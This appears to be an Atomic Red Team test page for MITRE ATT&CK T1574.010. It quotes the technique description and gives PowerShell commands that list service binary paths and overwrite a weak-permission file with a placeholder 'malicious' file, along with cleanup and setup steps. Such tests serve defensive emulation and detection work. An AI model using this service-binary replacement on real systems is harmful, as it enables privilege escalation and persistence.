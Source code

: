 # T1574.010 - Services File Permissions Weakness
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1574.010)
<blockquote>Adversaries may execute their own malicious payloads by hijacking the binaries used by services. Adversaries may use flaws in the permissions of Windows services to replace the binary that is executed upon service start. These service processes may automatically execute specific binaries as part of their functionality or to perform other actions. If the permissions on the file system directory containing a target binary, or permissions on the binary itself are improperly set, then the target binary may be overwritten with another binary using user-level permissions and executed by the original process. If the original process and thread are running under a higher permissions level, then the replaced binary will also execute under higher-level permissions, which could include SYSTEM.

Adversaries may use this technique to replace legitimate binaries with malicious ones as a means of executing code at a higher permissions level. If the executing process is set to run at a specific time or during a certain event (e.g., system bootup) then this technique can also be used for persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - File System Permissions Weakness](#atomic-test-1---file-system-permissions-weakness)


<br/>

## Atomic Test #1 - File System Permissions Weakness
This test to show checking file system permissions weakness and which can lead to privilege escalation by replacing malicious file. Example; check weak file permission and then replace.
powershell -c "Get-WmiObject win32_service | select PathName"   (check service file location) and
copy /Y C:\temp\payload.exe C:\ProgramData\folder\Update\weakpermissionfile.exe   ( replace weak permission file with malicious file )

Upon execution, open the weak permission file at %temp%\T1574.010_weak_permission_file.txt and verify that it's contents read "T1574.010 Malicious file". To verify
the weak file permissions, open File Explorer to%temp%\T1574.010_weak_permission_file.exe then open Properties and Security to view the Full Control permission is enabled.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| malicious_file | File to replace weak permission file with | path | $env:TEMP&#92;T1574.010&#92;T1574.010_malicious_file.txt|
| weak_permission_file | check weak files permission | path | $env:TEMP&#92;T1574.010_weak_permission_file.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
Get-WmiObject win32_service | select PathName
Copy-Item #{malicious_file} -Destination #{weak_permission_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item #{weak_permission_file} -Force -ErrorAction Ignore
Remove-Item -Recurse (Split-Path #{malicious_file}) -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: A file must exist on disk at specified location (#{weak_permission_file})
##### Check Prereq Commands:
```powershell
if (Test-Path #{weak_permission_file}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item #{weak_permission_file} -Force | Out-Null
Set-Content -Path #{weak_permission_file} -Value " T1574.010 Weak permission file"
```
##### Description: A file to replace the original weak_permission_file. In an attack this would be the malicious file gaining extra privileges
##### Check Prereq Commands:
```powershell
if (Test-Path #{malicious_file}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory -Path $env:TEMP\T1574.010\ -Force | Out-Null
New-Item #{malicious_file} -Force | Out-Null
Set-Content -Path #{malicious_file} -Value " T1574.010 Malicious file"
```




<br/>
